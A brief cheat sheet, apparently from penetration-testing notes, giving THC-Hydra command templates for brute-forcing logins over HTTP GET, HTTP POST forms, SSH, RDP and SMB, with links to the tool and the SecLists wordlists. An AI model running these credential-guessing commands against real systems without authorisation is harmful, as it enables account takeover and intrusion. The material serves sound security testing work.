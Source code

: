 # Overview



# Resources

https://github.com/vanhauser-thc/thc-hydra \
https://github.com/thex150/Seclists \
https://github.com/danielmiessler/SecLists

# Usage

Help
```sh
hydra -h
```

Bruteforce HTTP-Get (username:password)
```sh
hydra -C wordlist.txt <ip> -s <port> http-get /
```

Bruteforce Username HTTP-Get
```sh
hydra -L user.list -p password -f <ip> -s <port> http-get /
```

Bruteforce Password HTTP-Get
```sh
hydra -l username -P password.list -f <ip> -s <port> http-get /
```

Bruteforce POST form
```sh
hydra -l admin -P wordlist.txt <ip> -s <port> http-post-form "/<page>:<username-post-data>=^USER^&<password-post-data>=^PASS^:F=<string-logged-out>"
```

Bruteforce SSH
```sh
hydra -L user.list -P password.list ssh://<ip>
```

Bruteforce RDP
```sh
hydra -L user.list -P password.list rdp://<ip>
```

Bruteforce SMB
```sh
hydra -L user.list -P password.list smb://<ip>
```

Stop after successful login
```sh
-f
```

Try all users on each password
```bash
-u
```

Set username
```bash
-l test
```

Set password
```bash
-p test
```
